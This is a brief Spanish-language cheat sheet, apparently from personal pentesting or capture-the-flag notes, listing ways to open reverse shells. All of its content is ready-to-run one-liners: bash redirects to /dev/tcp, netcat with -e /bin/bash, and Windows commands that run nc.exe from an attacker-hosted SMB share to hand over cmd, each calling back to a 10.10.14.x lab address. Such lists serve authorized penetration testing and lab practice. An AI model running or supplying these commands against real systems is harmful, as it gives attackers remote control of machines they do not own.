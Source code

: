 # Shell y reverse Shell

En esta sección veremos varias formas de crear shell y reverse shell.

## Linux

Varias formas de crear shells en Linux.

#### Reverse shell desde linux a nuestra máquina.

```
bash -i >& /dev/tcp/10.10.14.49/443 0>&1
```

Tambien como parámetro bash.

```
bash -c "bash -i >& /dev/tcp/10.10.14.49/443 0>&1"
```

Si la máquina linux tiene **netcap**.

```
nc -e /bin/bash 10.10.14.31 443
```

## Windows

#### Ejecutar reverse shell desde recurso compartido

```
\\10.10.14.54\smbFolder\nc.exe -e cmd 10.10.14.54 443
```

Si hay que invocar a la consola

```
cmd /c \\10.10.14.54\smbFolder\nc.exe -e cmd 10.10.14.54 443
```

